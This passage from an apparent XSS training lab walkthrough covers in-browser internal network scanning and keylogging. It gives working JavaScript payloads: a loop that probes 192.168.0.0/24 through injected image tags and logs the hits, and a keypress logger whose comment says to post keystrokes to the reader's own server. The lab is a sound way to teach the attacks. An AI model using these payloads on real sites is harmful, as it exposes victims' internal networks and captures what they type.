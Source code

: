 On the XSS Playground, go to the IP/Port scanning tab and review a script to scan the internal network.

**IP and Port Scanning with XSS**

On the application layer your browser has no notion of internal and external IP addresses. So any website is able to tell your browser to request a resource from your internal network.

For example, a website could try to find if your router has a web interface at 192.168.0.1 by:

```html
<img src="http://192.168.0.1/favicon.ico" onload="alert('Found')" onerror="alert('Not found')">
```

Please keep in mind this is a proof of concept and there are many factors that will effect results such as response times, firewall rules, cross origin policies and more. Our browsers can conduct a basic network scan and infer about existing IP's, hostnames and services. As this is a learning exercise assume the factors do not apply here.

The following script will scan an internal network in the range 192.168.0.0 to 192.168.0.255

```html
<script>
 for (let i = 0; i < 256; i++) { // This is looping from 0 to 255
  let ip = '192.168.0.' + i // Creates variable for forming IP
  // Creating an image element, if the resource can load, it logs to the /logs page.
  let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
  document.body.innerHTML += code // This is adding the image element to the webpage
 }
</script>
```

After you've found an valid IP you can then use the same method above and include a port number. However, the method described here only works with web servers (as its looking for the favicon image). A more detailed port scanner can be found here. As previously stated, this page is a proof of concept, you can create scripts which have much more capability.

1. Understand the basic proof of concept script. Then create a file on your computer with the script, modify it to suit your network and run it. See if it picks up any of your devices that has a webserver running.

`No answer needed`

## Task 7 XSS Keylogger

Javascript can be used for many things, including creating an event to listen for key-presses.

Navigate to the "Key Logger" part of the XSS playground and complete the challenge.

Key-Logger with XSS

Javascript can be used for many things, including creating an event to listen for keypresses.

```html
<script type="text/javascript">
 let l = ""; // Variable to store key-strokes in
 document.onkeypress = function (e) { // Event to listen for key presses
   l += e.key; // If user types, log it to the l variable
   console.log(l); // update this line to post to your own server
 }
</script>
```
